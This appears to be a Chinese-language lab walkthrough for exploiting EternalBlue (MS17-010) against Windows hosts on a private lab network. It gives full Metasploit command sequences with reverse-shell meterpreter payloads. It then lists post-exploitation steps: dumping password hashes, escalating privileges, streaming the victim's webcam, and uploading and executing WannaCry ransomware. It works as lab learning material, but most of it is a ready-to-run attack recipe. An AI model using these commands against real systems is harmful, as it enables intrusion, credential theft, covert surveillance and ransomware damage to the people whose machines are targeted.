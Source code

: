 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open \ 
也可以用 \
nmap -n -p445 192.168.43.2 \
>nmap ms17-010     /*定向扫描,发现端口开放并存在ms17-010 漏洞*/

## 使用msf框架攻击win64
msfconsole \
>进入msf> \
version \
>确保MS \
>架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
>漏洞模块路径查询，搜索到了 4 个相关的插件： \
>auxiliary/admin/smb/ms17_010_command \
>auxiliary/scanner/smb/smb_ms17_010 \
>exploit/windows/smb/ms17_010_eternalblue \
>exploit/windows/smb/ms17_010_psexec \
>其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
>注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
use exploit/windows/smb/ms17_010_eternalblue \
>调用攻击模块 \
options \
>查看参数,并设置： \
set RHOST 192.168.43.2 \
>设定攻击目标  \
show payloads \
>查看详细信息 \
set payload windows/x64/meterpreter/reverse_tcp \
>配置攻击载荷  \
set LHOST 192.168.43.1 \
>设置操作机地址,即kali本机地址 \
exploit \
>发起攻击,也可以用run。出现win -success!就成功了。

## 可以试试以下操作，或者help
getuid，sysinfo \
>查看系统信息 \
webcam_list \
>看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
route \
>查看路由表 \
screenshot \
>桌面截图，很卡 \
shell \
>打开命令行，然后可以ipconfig/whoami/net user \
ps \
>看看开了哪些杀毒软件，内网一致 \
kill \
hashdump \
getsystem \
>提权 \
upload wcry/wcry.ext c:\ \
upload wcry/FILE_ID.DIZ c:\ \
execute -f c:\wcry.exe \
>上传和执行勒索病毒

## 使用msf框架攻击win32
use exploit/windows/smb/ms17_010_psexec \
set RHOST 192.168.43.3 \
set payload windows/meterpreter/reverse_tcp \
show options \
查看设置好的参数 \
set LHOST 192.168.43.1 \
set SMBUser aleecy \
>32位机的账号 \
set SMBPass 0 \
>32位机的密码 \
exploit


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
/etc/init.d/postgresql restart \
reload_all
